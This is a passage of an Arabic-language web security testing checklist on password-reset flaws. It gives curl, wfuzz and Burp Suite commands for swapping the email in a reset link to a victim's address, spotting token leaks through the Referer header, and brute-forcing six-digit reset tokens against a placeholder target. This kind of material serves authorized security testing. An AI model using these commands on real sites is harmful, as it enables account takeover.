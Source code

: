 
## المحاولة الرابعة: التوكن عبر استبدال الإيميل
**الوصف**: اختبار إذا كان التوكن يعمل مع إيميلات أخرى غير المقصودة.
- **الخطوات**:
  1. اطلب إعادة تعيين كلمة المرور واستلم التوكن.
  2. عدّل الإيميل في الرابط (مثل `https://target.com/reset?token=abc123&email=victim@example.com`).
  3. جرب الرابط المعدل.
- **الأدوات/الأوامر**:
  - متصفح: عدّل الرابط يدويًا.
  - cURL:
    ```bash
    curl https://target.com/reset?token=abc123&email=victim@example.com
    ```
  - Burp Suite: عدّل حقل `email`.
- **الملخص**:
  - cURL: `curl https://target.com/reset?token=abc123&email=victim@example.com`

---

## المحاولة الخامسة: تسريب التوكن عبر Referer Header
**الوصف**: اختبار إذا كان التوكن يتسرّب عبر الـ Referer Header عند النقر على روابط خارجية.
- **الخطوات**:
  1. افتح رابط إعادة التعيين.
  2. اضغط على رابط خارجي (مثل "Contact Us").
  3. اعترض الطلب وافحص الـ Referer Header.
- **الأدوات/الأوامر**:
  - Burp Suite: افحص الـ Referer Header.
  - cURL:
    ```bash
    curl -I -e "https://target.com/reset?token=abc123" https://external.com
    ```
- **الملخص**:
  - cURL: `curl -I -e "https://target.com/reset?token=abc123" https://external.com`

---

## المحاولة السادسة: Brute Force على التوكن
**الوصف**: اختبار إذا كان التوكن ضعيفًا لدرجة يمكن تخمينه بسهولة.
- **الخطوات**:
  1. حلل التوكن (طول، تنسيق).
  2. استخدم أداة لتجربة توكنات مختلفة.
  3. راقب الردود وقيود المحاولات.
- **الأدوات/الأوامر**:
  - wfuzz:
    ```bash
    wfuzz -c -z range,000000-999999 --hc 404 https://target.com/reset?token=FUZZ
    ```
  - cURL:
    ```bash
    curl https://target.com/reset?token=000001
    ```
  - Burp Suite Intruder: استخدم قائمة توكنات.
- **الملخص**:
  - wfuzz: `wfuzz -c -z range,000000-999999 --hc 404 https://target.com/reset?token=FUZZ`

---
